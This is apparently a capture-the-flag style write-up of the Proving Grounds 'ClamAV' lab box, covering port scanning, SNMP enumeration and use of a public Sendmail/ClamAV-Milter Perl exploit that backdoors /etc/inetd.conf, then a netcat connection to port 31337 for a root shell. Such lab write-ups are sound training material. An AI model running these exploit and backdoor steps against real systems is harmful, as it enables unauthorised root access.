 ```yaml
---
title: "Proving Grounds - ClamAV"
categories: [Proving Grounds, Easy]
tags: [Linux, SNMP, ClamAV-Milter, OSCP]
mermaid: true
image: ../assets/img/oscp/oscp.png
---
```


ClamAV was an insightful box to explore exploitation techniques for services like ClamAV-Milter.

The process started with comprehensive information gathering, including a full port scan revealing various open ports. 

The HTTP enumeration led to identifying and decoding a binary message, providing a potential password. 

Enumeration of SNMP services helped identify the running ClamAV-Milter service. 

The exploitation phase involved searching for relevant exploits and utilizing a Perl script to create a backdoor by modifying the /etc/inetd.conf file, which enabled root shell access through a netcat connection on a specified port.

# Diagram

```mermaid
graph TD
    A[Information Gathering] -->|Port Scan| B[Enumeration]
    B -->|Identify HTTP| C[Explore HTTP Content]
    C -->|Find Binary Info| D[Decode Password]
    D -->|Enumerate SNMP| E[Identify ClamAV-Milter]
    E -->|Search Exploits| F[Exploit ClamAV-Milter]
    F -->|Execute Perl Script| G[Create Backdoor]
    G -->|Connect via Netcat| H[Root Shell]
```

## Information Gathering

`IP=192.168.184.42`  

### Port scan

---

- `nmap -sS -Pn -n -T4 --open $IP`
    
    ![Untitled](../assets/img/oscp/ClamAV/Untitled.png)
    
- `nmap -sS -Pn -n -T4 --open -p- $IP` - new port 6000
    
    ![Untitled](../assets/img/oscp/ClamAV/Untitled%201.png)
    
- `nmap -sVC -Pn -n -p 22,25,80,139,199,445,60000 $IP`
    
    ![Untitled](../assets/img/oscp/ClamAV/Untitled%202.png)
    

## Enumeration

### HTTP 80

---

- [http://192.168.184.42/](http://192.168.184.42/) → Info in binary. Also the title is called `Ph33r`, looks like an User.
    
    ![Untitled](../assets/img/oscp/ClamAV/Untitled%203.png)
    
- translating binary - `ifyoudontpwnmeuran00b` -  Looks like an password
    
    ![Untitled](../assets/img/oscp/ClamAV/Untitled%204.png)
    

- `feroxbuster -u http://$IP -k -C 404,403,500,502  --wordlist=/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -X .php -t 100`
    
    ![Untitled](../assets/img/oscp/ClamAV/Untitled%205.png)
    


### SNMP 199 & 25

---

- `snmpwalk -c public -v1 $IP` - Nothing useful
    
    ![Untitled](../assets/img/oscp/ClamAV/Untitled%2012.png)
    
- `snmp-check $IP -c public`
    
    ![Untitled](../assets/img/oscp/ClamAV/Untitled%2013.png)
    
    ![Untitled](../assets/img/oscp/ClamAV/Untitled%2015.png)
    
    

It’s running  **ClamAV-Milter**

```jsx
3782 runnable clamav-milter /usr/local/sbin/clamav-milter  --black-hole-mode -l -o -q /var/run/clamav/clamav-milter.ctl
```

## Exploitation

### ClamAV

---

Now searching for scripts for ClamAV-Milter

- `searchsploit ClamAV-Milter` → *Only in perl*
    
    ![Untitled](../assets/img/oscp/ClamAV/Untitled%2017.png)
    
- `cat 4761.pl`
    
    ![Untitled](../assets/img/oscp/ClamAV/Untitled%2018.png)
    

This script exploits a vulnerability in Sendmail when used with ClamAV's milter to append a malicious command to `/etc/inetd.conf`, effectively creating a backdoor that grants root access via a shell on a specified TCP port (31337). The script then restarts the inetd service to activate the backdoor.

- `perl 4761.pl $IP`
    
    ![Untitled](../assets/img/oscp/ClamAV/Untitled%2019.png)
    

- `nc $IP 31337
/bin/sh -i`
    
    ![Untitled](../assets/img/oscp/ClamAV/Untitled%2020.png)
    

- `flag`
    
    ![Untitled](../assets/img/oscp/ClamAV/Untitled%2021.png)